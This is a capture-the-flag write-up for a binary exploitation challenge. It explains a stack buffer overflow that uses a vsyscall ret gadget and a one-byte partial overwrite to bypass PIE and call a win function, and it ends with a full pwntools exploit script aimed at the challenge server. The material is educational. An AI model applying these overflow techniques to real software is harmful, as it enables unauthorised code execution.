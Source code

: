![Screenshot 2025-02-26 113030](https://github.com/user-attachments/assets/fd4721d4-694d-45c0-9e46-d799995012e0) \
\
I didn't solve this problem on time but i think this problem really testing our fundamental understanding in pwning (IMO). We will see why.

# NOTE :
Author said there's no need of bruteforcing in this challenge and also the challenge is not dependent in libc. \
And also if **vsyscall** is not enabled in your machine please refer to [this](https://helpcenter.onlyoffice.com/installation/mail-enabling-vsyscall.aspx) article.

# Technique = Ret2win (with **vsyscall** gadget)

## 1. Checking given file.
Given a zip file that contains 2 files which are _chall_ and _src.c_
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/trx/pwn/virtual_instanity/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

As we can see this challenge looks pretty simple at first glance, it looks like a simple ret2win challenge. But the problem now is, how do we return to the win function? there's no leak and PIE is enabled. The short answer is we can make use of the gadget available at _vsyscall_, so the gadget that we're gonna need is just a simple _ret_ gadget and we can find that by jumping to _vsyscall_'s address which located at fixed address at _0xffffffffff600000_, the instructions is somewhat look like this:
```asm
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret
```
Now we have a _ret_ gadget, so the next technique is partially overwriting the return address in stack to win() function. We will see clearly what i mean below.


## 2. Analyzing Binary in GDB.
First let's set breakpoints at these addresses to check the stack before and after we send our junk input:\
![Screenshot 2025-02-27 015002](https://github.com/user-attachments/assets/f67c20ea-2bcf-405e-b7cc-48be49f90791)

Stack layout **before** junk input:\
![Screenshot 2025-02-27 015556](https://github.com/user-attachments/assets/36810dd3-6fad-48e2-8835-75161f019bbe)

Stack layout **after** junk input:\
![Screenshot 2025-02-27 015738](https://github.com/user-attachments/assets/64680289-0fff-4d1f-9bc9-d7b5b8eef4a1)
![Screenshot 2025-02-27 015823](https://github.com/user-attachments/assets/b26de687-6045-49bb-8536-f356dbacf302)

We can see our junk input (**0x41**s) are there on the stack.

Now let's put our attention at these addresses: \
**0x00007ffff7dd4d68** <-- __libc_start_call_main+120 \
**0x00005555555551da** <-- main \
![image](https://github.com/user-attachments/assets/f902b87e-d92b-4aaa-9259-f7cf7c23c152)

So the buffer is 0x20 (32 bytes) + 8 bytes (RBP) and the 41st byte is the rip, here we can just put the address of _vsyscall_ twice until it reaches the address **0x00005555555551da** which located on the stack as well.
![image](https://github.com/user-attachments/assets/a1afad91-040c-4ddd-83c8-83e38f0fe04e)

After that we just need to partially overwrite 1 more byte to the **main** function that located there, we will overwrite it with they byte '**\xa9**', why? let's take a look at the image below: \
![image](https://github.com/user-attachments/assets/5ce719d9-ddbc-44bb-bb76-c336693a46d2) \
Since the address of **main** and **win** is only different at their last 1 byte, we can just overflow that '**\xa9**' so that the address of **main** gets overwrite with **win**.

Let's first setup the fake flag in our environment variable for testing the exploit. We'll call the env as **FLAG** like in the binary itself.
```bash
export FLAG="FLAG{fake_flag_DEADBEEF}"
```

## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall'
HOST = 'virtual.ctf.theromanxpl0.it'
PORT = 7011

elf = ELF(TARGET)
#libc = ELF('./libc.so.6')
#ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #

"""
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000:  mov    rax,0x60
0xffffffffff600007:  syscall
0xffffffffff600009:  ret
"""

p.recvline()

payload = b'A' * 0x28
payload += p64(0xffffffffff600000) * 2
payload += b'\xa9'

p.send(payload)

p.interactive()
p.close()

# NOTE:
# ret2win (with vsyscall gadget)
```

## 4. Result
Local: \
![Screenshot 2025-02-27 024937](https://github.com/user-attachments/assets/dddafed0-2ee5-4c95-b41f-e4d47a629d45)

Remote: \
![Screenshot 2025-02-27 025009](https://github.com/user-attachments/assets/3ce2606c-1a1a-4309-b8a9-fccea68ae38f)


## Keyword
ret2win \
vsyscall \
partial address overwrite
